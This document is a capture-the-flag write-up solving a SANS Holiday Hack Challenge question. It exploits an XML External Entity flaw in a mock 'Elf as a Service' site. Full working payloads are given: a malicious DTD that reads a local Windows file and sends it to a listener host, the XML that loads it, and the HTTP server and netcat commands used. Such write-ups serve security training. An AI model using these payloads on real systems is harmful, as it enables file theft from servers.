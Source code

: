 * Question
   :PROPERTIES:
   :CUSTOM_ID: q6_question
   :END:

The North Pole engineering team has introduced an Elf as a Service
(EaaS) platform to optimize resource allocation for mission-critical
Christmas engineering projects at
http://eaas.northpolechristmastown.com. Visit the system and retrieve
instructions for accessing The Great Book page from C:\greatbook.txt.
Then retrieve The Great Book PDF file by following those directions.
What is the title of The Great Book page?

/For hints on this challenge, please consult with Sugarplum Mary in the North Pole and Beyond./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q6_background-information
   :END:

** Hints:

 #+begin_hint
 The Elf As A Service (EAAS) site is a new service we're experimenting with in the North Pole. Previously, if you needed a special engineer for toy production, you would have to write a memo and distribute it to several people for approval. All of that process is automated now, allowing production teams to request assistance through the EAAS site.
 #+end_hint

 #+begin_hint
 The EAAS site uses XML data to manage requests from other teams. There is a sample request layout available that you can download. Teams just customize the XML and submit!
 #+end_hint

 #+begin_hint
 I think some of the elves got a little lazy toward the go-live date for EAAS. The sample XML data doesn't even include a DTD reference.
 #+end_hint

 #+begin_hint
 XML processing can be complex. I saw an interesting article recently on the [[https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities][dangers of external XML entities]].
 #+end_hint

** Blog Posts:

This post is called out in the hints:

 Exploiting XXE Vulnerabilities in IIS.NET
 https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities

To pull off this attack, we'll need to host a file somewhere that the EaaS system can reach. We can either host it on l2s, in which case we'll use the following blog post for creating a file on that system, which is locked down with =rbash=:

 A Spot of Tee
 https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee

Alternatively, we could spin up an AWS VM using the instructions in:

 Putting My Zero Cents In: Using the Free Tier on Amazon Web Services (EC2)
 https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2

The hints are all pretty strongly pointing us towards an {{{abbr(XML External Entity, XXE)}}} vulnerability.

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q6_goal
   :END:

We want to access C:\greatbook.txt, and then follow those instructions to retrieve a page of the Great Book.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q6_approach
   :END:

We'll start with just pulling up the site in a browser:

#+CAPTION: EaaS Home
#+attr_html: :width 350px
[[./images/eaas_home.png]]

Poking around the site a bit, we see that it provides four functions:

1. We can view our current Elf order at http://eaas.northpolechristmastown.com/Home/DisplayXML,
2. On that same page, we can make a change to our order by uploading a file,
3. We can reset the XML file here: http://eaas.northpolechristmastown.com/Home/CreateElfs,
4. We can download the XML file here: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

All this XML talk lines up pretty well with the blog post and the hints. Let's see if the EaaS site is vulnerable to {{{abbr(XML External Entity, XXE)}}}.

Following along with the blog post, we'll create a malicious
{{{abbr(Data Type Definition, DTD)}}} file, borrowing liberally from the SANS post:

#+CAPTION: The DTD File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

If we can get the XML parser to use this {{{abbr(Data Type Definition, DTD)}}} 
file, it will read our target text file, then send it to a system that
we control. This file doesn't help the parser know how to parse our
XML, but we don't really care if it gets parsed correctly or not.

In order to have the XML parser load this {{{abbr(Data Type Definition, DTD)}}} file, we'll use the XML example in the blog post:

#+begin_note
This example in the blog post had a typo, where the last character was a =<= instead of a =>=.
#+end_note

#+CAPTION: The XML File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

This will load our evil.dtd file, then instantiate the necessary
entities. To finish off the attack, we'll need two HTTP services
running. The first will need to serve the evil.dtd file. Python's
=SimpleHTTPServer= is the easiest way to do this, and in fact, that's
provided on l2s. We'll create our file, with tee, then start a
server. Ports 8080 and 4444 are very contentious on l2s, so we'll use
non-standard ones instead:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ cat | tee evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ python -m SimpleHTTPServer 8271
Serving HTTP on 0.0.0.0 port 8271 ...
#+END_SRC

In another terminal, we'll start up a =netcat= listener, to capture the response:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

With these services in place, we're ready to upload our malicious XML file. Using a web browser, we'll upload our XML file, and then see what happens.

#+BEGIN_SRC 
Serving HTTP on 0.0.0.0 port 8271 ...
10.142.0.13 - - [10/Jan/2018 22:26:43] "GET /evil.dtd HTTP/1.1" 200 -
#+END_SRC

Great, our DTD file was loaded! And checking our =netcat= instance:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

...nothing. That's disappointing. We've already noticed one typo in
the blog. Could it be possible that there was another error? Taking a
close look at the image on the page, we notice that part of the DTD
file is escaped differently from how the example shows up on the
webpage:

#+CAPTION: DTD File
#+attr_html: :width 350px
[[./images/eaas_dtd.png]]

We'll update our DTD file, so that the percent sign before ~sendit~ is escaped:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

We'll upload our file one more time, and...

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.yNLdj0xcg7AZi5v1gYns2lFO$ nc -l -p 8272
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 10.142.0.11:8272
Connection: Keep-Alive
#+END_SRC

Success! In the =GET= request, the text after =?= is the contents of C:\greatbook.txt. If we pull up that URL, we get GreatBookPage6.pdf.

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q6_solution
   :END:

We upload this XML file:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

And this is our DTD:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

When we upload our XML file, we receive the contents of the target file, and can then download the PDF.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q6_common-pitfalls
   :END:

This followed closely to the SANS blog post, but there was a typo and an HTML rendering issue with some of the provided code that caused some headaches.
